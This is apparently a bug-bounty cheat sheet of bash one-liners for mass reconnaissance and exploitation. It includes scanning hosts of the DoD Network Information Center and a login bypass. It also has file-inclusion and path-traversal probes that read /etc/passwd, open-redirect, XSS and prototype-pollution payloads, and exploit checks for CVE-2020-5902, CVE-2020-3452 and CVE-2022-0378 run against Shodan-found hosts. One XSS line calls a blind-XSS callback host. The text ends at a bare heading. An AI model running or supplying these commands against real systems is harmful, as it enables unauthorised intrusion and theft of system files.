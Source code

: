 ```bash
uncover -q 'org:"DoD Network Information Center"' | httpx -silent | nuclei -silent -severity low,medium,high,critical
```
**Find admin login**
```bash
cat domains_list.txt | httpx -ports 80,443,8080,8443 -path /admin -mr "admin"
```
**403 login Bypass**
```bash
cat hosts.txt | httpx -path /login -p 80,443,8080,8443 -mc 401,403 -silent -t 300 | unfurl format %s://%d | httpx -path //login -mc 200 -t 300 -nc -silent
```
**Recon Parameters**
```bash
echo tesla.com | subfinder -silent | httpx -silent | cariddi -intensive
```
**Local File Inclusion**
```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
**Open-redirect**
```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```
```bash
cat URLS.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```
**XSS**
```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```
```bash
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt
```
```bash
cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
```
**Prototype Pollution**
```bash
subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```
**CVE-2020-5902**
```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```
**CVE-2020-3452**
```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```
**CVE-2022-0378**
```bash
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```
**vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution**